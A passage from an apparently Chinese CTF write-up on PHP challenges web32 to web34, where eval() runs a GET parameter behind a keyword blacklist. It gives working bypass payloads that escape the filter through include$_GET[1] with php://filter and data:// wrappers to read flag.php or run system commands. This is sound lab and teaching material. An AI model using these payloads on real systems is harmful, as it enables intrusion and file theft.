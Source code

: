 主要是符号的过滤

所以这道题

我们可以使用

```cobol
payload1: ?c=include$_GET[1]?>&1=php://filter/read=convert.base64-encode/resource=flag.php
payload2: ?c=include$_GET[1]?>&1=data://text/plain,<?php system("cat flag.php");?>
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/df3aa393b0f92359c8801b1aa32b738e.png" alt="" style="max-height:140px; box-sizing:content-box;" />


## web33

```php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\"/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
} 
```

和32差不多

过滤的东西不影响我们通过逃逸参数1

```cobol
/?c=include$_GET[1]?>&1=php://filter/read=convert.base64-encode/resource=flag.php
```

## web34

```php
 
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

好像还是可以使用
